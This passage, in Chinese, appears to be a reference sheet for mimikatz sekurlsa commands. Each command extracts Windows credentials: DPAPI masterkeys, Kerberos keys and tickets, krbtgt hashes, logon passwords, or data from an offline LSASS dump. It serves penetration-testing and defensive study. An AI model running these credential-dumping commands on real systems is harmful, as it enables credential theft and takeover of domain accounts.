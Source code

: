 ```

## dpapi
列出DPAPI缓存的masterkeys

```
mimikatz # sekurlsa::dpapi
```

## dpapisystem

列出DPAPI_SYSTEM secret key

```
mimikatz # sekurlsa::dpapisystem
```

## ekeys

列出Kerberos加密密钥
```
mimikatz # sekurlsa::ekeys
```

## kerberos

列出Kerberos凭证
```
mimikatz # sekurlsa::kerberos
```

## krbtgt
检索krbtgt RC4（即NT哈希值）、AES128和AES256哈希值

```
mimikatz # sekurlsa::krbtgt
```

## livessp
列出了LiveSSP凭证。据微软称，LiveSSP供应商默认包含在Windows 8和更高版本中，并包含在Office 365登录助手中

```
mimikatz # sekurlsa::livessp
```

## logonpasswords
列出所有可用的提供者凭证。这通常显示最近登录的用户和计算机凭证

```
mimikatz # sekurlsa::logonpasswords
```

## minidump

可以针对转储的LSASS进程文件使用，它不需要管理权限。它被认为是一种 "离线 "转储。
```
mimikatz # sekurlsa::minidump file.dmp
